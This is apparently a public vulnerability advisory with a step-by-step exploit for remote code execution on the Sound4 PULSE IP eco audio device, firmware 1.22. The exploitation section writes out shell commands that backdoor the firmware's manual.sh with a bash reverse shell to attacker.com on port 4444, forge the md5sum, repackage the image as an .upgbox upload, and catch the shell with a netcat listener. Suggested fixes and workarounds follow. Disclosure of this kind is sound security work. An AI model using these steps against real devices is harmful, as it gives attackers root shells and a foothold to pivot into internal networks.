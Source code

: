 # Sound4 PULSE IP eco (Firmware 1.22) - Remote Code Execution (RCE)

## Description

The Sound4 PULSE IP eco web-based management interface is vulnerable to Remote Code Execution (RCE) via a malicious firmware update package. The update mechanism fails to validate the integrity of `manual.sh`, allowing an attacker to inject arbitrary commands by modifying this script and repackaging the firmware.

## Product:
- **Vendor**: Sound4
- **Model**: PULSE IP eco
- **Firmware/Software**: 1.22

## Vulnerability:
- **Type**: Remote Code Execution (RCE)
- **Impact**: Full remote shell access as root via firmware update mechanism.
- **Access Required**: Web-based management interface login

## Vulnerable Endpoints:
- `/settings` → Firmware Upload (Software Update)

## Exploit Summary:
An attacker with access to the web-based admin interface can craft a malicious firmware update package that includes a backdoored `manual.sh` file, leading to remote code execution during the update process.

## Exploitation Steps:

1. **Download the Original Firmware**  
   From the official Sound4 support page:  
https://www.sound4helpdesk.com/pulse-eco-downloads


2. **Extract Firmware**  
```bash
tar -xvf PULSE-AES67-eco_v1.22.tar
```
3. **Modify manual.sh**
Replace or append your reverse shell in manual.sh:
```bash
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > manual.sh
chmod +x manual.sh
```
4. **Update md5sum File**
Recalculate the checksum and replace it in md5sum:
```bash
md5sum manual.sh 
nano md5sum
```
5. **Prepare Firmware Structure**
Ensure these files are present:

    manual.sh (malicious)

    md5sum

    md5sum.gpg

    versions.sh

    warnings.xml

6. **Repackage Firmware**
```bash
tar -cf PULSE-AES67-eco_v1.22 ./
xz -C crc64 -k PULSE-AES67-eco_v1.22
mv PULSE-AES67-eco_v1.22.xz PULSE-AES67-eco_v1.22.upgbox
```
7. **Upload via Web Interface**

        Login to the web admin interface of the Sound4 device

        Navigate to: Settings → Software Update

        Upload the modified .upgbox file

8. **Trigger and Receive Reverse Shell**
    Once uploaded, the device executes manual.sh, and the reverse shell is triggered.

## Notes:

    Ensure listener is running on your attack machine (e.g., nc -lvnp 4444).

    The vulnerability relies on the firmware verification process trusting the MD5 hash and not validating against a secure signature.

## Proof of Concept (PoC) 
https://github.com/user-attachments/assets/8e2d7082-b991-4d3f-b71a-5783d53df5ca

## Impact

Successful exploitation allows a remote attacker to:

    Execute arbitrary shell commands as root

    Gain persistent access to the device

    Modify system behavior or firmware

    Pivot to internal networks if the device is not properly segmented

## Suggested Fixes

    Implement strict integrity checks (cryptographic signature verification) during firmware upload.

    Restrict upload functionality to trusted administrators only.

    Sanitize and validate manual.sh execution.

## Workarounds

    Disable firmware upload functionality via the web interface if not in use.

    Use access control lists (ACLs) and firewall rules to restrict access to the web interface.

    Monitor firmware integrity by verifying checksums and timestamps regularly.

